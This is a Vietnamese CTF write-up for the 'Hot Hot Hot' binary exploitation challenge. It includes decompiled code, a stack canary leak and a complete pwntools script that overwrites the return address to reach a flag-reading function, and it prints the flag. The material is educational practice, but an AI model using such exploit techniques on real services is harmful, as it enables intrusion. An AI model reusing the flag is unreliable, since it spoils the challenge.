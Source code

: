 # VSL Summer CTF

<img src="https://github.com/Thuanle2401/VSL-CTF/blob/main/web/UploadFile1/images/VSL-summer.png?raw=true" width="500" height="300">

---
# Challenge: Hot Hot Hot
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Thông tin challenge
- [Link Download](https://vsl.ce.vku.udn.vn/files/2d87b37396ac71cc4964bae41d468c0e/challenge.zip?token=eyJ1c2VyX2lkIjoyMDgsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjQzfQ.aFbGkg.m4P5jFzT8OVy1Gro70FTYouoNMA)
- Netcat connection: `nc 61.14.233.78 7001`

## 3. Solution
- Công cụ: **IDA free 9.0, checksec, pwndbg, pwntools (python3)**

### 3.1. Phân tích file nhị phân(hothothot) được dịch ngược bằng IDA
- Ở tab `function name` trong **IDA** ta thấy có 1 số hàm đáng chú ý là `main`, `duckling`, `duck_attack`: 
- Hàm `main`:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  duckling(argc, argv, envp);
  return 0;
}
```
- Ta có thể thấy `main` lại gọi tiếp 1 hàm là `duckling`, ta sẽ tiếp tục phân tích hàm này:
```c
unsigned __int64 duckling()
{
  char *v1; // [rsp+8h] [rbp-88h]
  _QWORD buf[4]; // [rsp+10h] [rbp-80h] BYREF
  _QWORD v3[11]; // [rsp+30h] [rbp-60h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(v3, 0, 80);
  printf("Quack the Duck!\n\n> ");
  fflush(_bss_start);
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  if ( !v1 )
  {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, v3, 0x6AuLL);
  puts("Did you really expect to win a fight against a Duck?!\n");
  return v4 - __readfsqword(0x28u);
}
```
- Quan sát mảng `buf` và `v3` mà chương trình cấp phát và kích thước dữ liệu mà người dùng có thể nhập vào 2 mảng này thông qua hàm `read` ta có thể kết luận chương trình mắc lỗi `buffer overflow` và quan sát code trong hàm `duck_attack`(cho phép đọc file `flag.txt`), có vẻ như mục tiêu của ta là thao túng thanh ghi `rip` trỏ đến hàm `duck_attack` nhờ vào `buffer overflow`.
- Tuy nhiên, chương trình đã bật `Stack Canary` để ngăn việc tràn bộ đệm, ta sẽ dùng `checksec` để kiểm tra điều này:

```bash
$ checksec --file=hothothot
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   54 Symbols        No    0               2               hothothot
```
- Vậy liệu ta có thể bypass được `Stack Canary` để tiếp tục thực hiện được `buffer overflow` không? 
- Tiếp tục quan sát hàm `duckling` có đoạn:
```c
printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```
- Đoạn này sẽ in nội dung từ địa chỉ `v1 + 32` trở đi với định dạng `%s` và ta hoàn toàn có thể tận dụng điều này để chương trình leak nội dung của `Stack Canary`
(`Format String Vulnerability`)

### 3.2. Tìm offset đến `Stack Canary` trong `duckling`
3.2. Tìm offset đến Stack Canary trong duckling
- Qua phân tích từ **IDA**, ta thấy `layout stack` như sau:
```less
[buf: 0x80 bytes]  --> user input đầu tiên (read 0x66 = 102 bytes)
[v3: 0x60 bytes]   --> user input thứ hai (read 0x6A = 106 bytes)
[v4: canary]
[saved RBP]
[RIP]
```
- Ta nhận thấy `buf` và `v3` được đặt kế tiếp nhau trên stack, trong đó `v3` có kích thước đúng 88 bytes, tiếp theo là canary (8 bytes) → tổng cộng offset 88 là nơi canary bắt đầu trong vùng `v3`. Vậy nếu nhập từ `buf` thì offset đến `canary` sẽ là 120 bytes (32 + 88 bytes) nhưng ta sẽ sẽ không thể nhập quá 102 bytes vì
user input đầu tiên (read 0x66 = 102 bytes).

### 3.3. Leak `Stack Canary`
- Hàm `strstr` trong `duckling` tìm chuỗi `"Quack Quack "` trong dữ liệu ta nhập vào `buf`, rồi in nội dung từ `v1 + 32` trở đi với định dạng `%s`.
- Nhờ đó, ta có thể điều chỉnh input sao cho `"Quack Quack "` bắt đầu ở vị trí thứ 89 trong user input đầu tiên, rồi `v1 + 32` sẽ nằm tại vị trí `stack canary` và thêm 1 byte nữa để tránh đọc `null byte` (`\x00`) (byte đầu của `canary` là `\x00`) như vậy ta có thể leak được 7 bytes sau của canary.
- Sau đó, ta ghép 7 bytes `canary` vừa leak được bằng cách thêm byte `\x00` vào đầu khi dùng `u64` (`pwntools`)

### 3.4. Script Python
- Dưới đây là script khai thác và giải thích chi tiết:

```python
from pwn import *

p = remote('61.14.233.78', 7001)

# Payload đầu tiên để bypass strstr()
# Gửi 89 bytes để chiếm đầy `buf` + 1 byte bỏ qua byte đầu tiên của stack canary (thường là \x00)
# Sau đó là chuỗi "Quack Quack " để hàm `strstr(buf, "Quack Quack ")` tìm thấy chuỗi này tại offset 89
first = b'A'*89 + b"Quack Quack "
p.send(first)

# Chờ chương trình in ra prompt `"ready to fight the Duck?\n\n> "` 
output = p.recvuntil(b"ready to fight the Duck?\n\n> ")

# Parse nội dung được in giữa "Quack Quack " và ", ready"
# Đây chính là nơi `printf("%s", v1+32)` in ra từ stack → có thể bắt đầu từ phần còn lại của canary
leak = output.split(b"Quack Quack ")[2].split(b", ready")[0]

# Vì byte đầu tiên của canary bị ghi đè bởi 'A' nên không leak được,
# ta prepends thủ công `\x00` để khôi phục lại giá trị gốc (vì canary luôn có byte đầu là 0)
canary = u64(b'\x00' + leak[:7])
log.info(f"Canary: {hex(canary)}")

# Payload thứ hai: ghi đè buf, canary, saved RBP, và RIP để nhảy tới duck_attack()
second = flat(
    b'B' * 88,           # Ghi đè hết vùng buffer
    p64(canary),         # Ghi đúng lại stack canary đã leak được
    b'C' * 8,            # Ghi đè saved RBP (không quan trọng)
    p64(0x40137f),       # Ghi đè RIP → nhảy tới địa chỉ hàm duck_attack()
)

# Gửi payload ROP
p.send(second)
p.interactive()
```

- Sau khi chạy script, ta nhận được flag: <br>
`VSL{h0t_h0tt3r_h0tt3st_fl4m3_292jdnk@&wmql}`






